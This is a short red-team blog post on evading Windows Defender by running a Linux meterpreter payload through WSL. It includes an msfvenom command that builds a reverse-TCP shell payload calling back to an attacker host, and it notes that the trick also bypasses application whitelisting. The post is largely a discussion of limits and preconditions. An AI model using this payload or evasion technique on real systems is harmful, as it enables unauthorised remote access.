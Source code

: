```yaml
---
title: Bypassing Windows Defender with the Windows Subsystem for Linux!
date: 2019-01-16
draft: false
---
```


After watching BHIS’s Sacred Cash Cow Tipping 2020 I was inspired to try out a few of the techniques BHIS demo’d, and this is a pretty fun and odd one.

There’s a few issues with WSL that make it a really poor choice for hacking without some configurations. The interesting one here is that WSL **does not use VHDs or emulate linux filesystems**, in fact, you can navigate to `%AppData%/Local/Packages/$LinuxDistro/LocalState/rootfs` and interact with the entire filesystem.

This also means that every file you make/drop to WSL is scanned by Windows Defender. Don’t even try to install metasploit.

However, as BHIS points out, elf files are not scanned by Defender. So to test this, if you fire up a normal metasploit session and do a quick `msfvenom -f elf -p linux/x64/meterpreter_reverse_tcp LHOST=$IP LPORT=4444 > payload.elf` you can simply drop it to disk and run it through WSL. A shell comes back, no questions asked.

This is pretty cool and exciting and all, but there’s a few drawbacks. The first issue is that since you’re running from a linux payload and from within WSL, you can’t use typical metasploit windows goodies like priv and kiwi without first pivoting.

The other issue is that this technique has a lot of preconditions. You need to first have initial access obviously, but you also need the target to have WSL installed, with a linux distribution installed. This is not most workstations. Installing a linux distro into WSL requires you to first enable the WSL feature in Windows, then restart the machine, and finally install the distro of your choice. Steps 1 and 3 both require administrative privileges by default, so I don’t see a practical use-case unless you can somehow install WSL without admin or the machine is preconfigued.

It’s a very neat trick though, and runs all processes through WSL, which allows you to bypass application whitelisting as well.